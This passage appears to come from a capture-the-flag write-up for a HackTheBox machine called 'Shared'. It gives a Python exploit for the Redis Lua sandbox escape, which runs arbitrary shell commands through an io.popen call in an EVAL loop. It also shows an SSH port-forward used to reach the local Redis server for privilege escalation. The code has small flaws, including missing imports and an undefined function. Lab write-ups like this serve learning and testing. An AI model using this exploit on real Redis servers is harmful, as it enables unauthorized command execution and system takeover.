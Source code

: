 ```python


def shell(ip,port,cmd):
	lua= 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'+cmd+'", "r"); local res = f:read("*a"); f:close(); return res'
	r  =  redis.Redis(host = ip,port = port, password="-- EDITED --")
	script = r.eval(lua,0)
	print(script)


if __name__ == '__main__':
    echoMessage()
	ip = "127.0.0.1"
	port = 6379
	while True:
		cmd = input("input exec cmd:(q->exit)\n>>")
		if cmd == "q" or cmd == "exit":
			sys.exit()
		shell(ip,port,cmd)
```

And now we are ready to run the exploit. But Redis server is only accessed locally. So we need to use port-forwarding here. We have an SSH access and can easily make a local port-forwarding.

```bash
┌──(kali㉿workstation)-[~]
└─$ ssh -i id_rsa_dan_smith dan_smith@shared -L 6379:localhost:6379
```

After that, we just have to run an exploit on our attacking machine.

![Privilege escalation](/assets/hackthebox/shared/rooted.png)
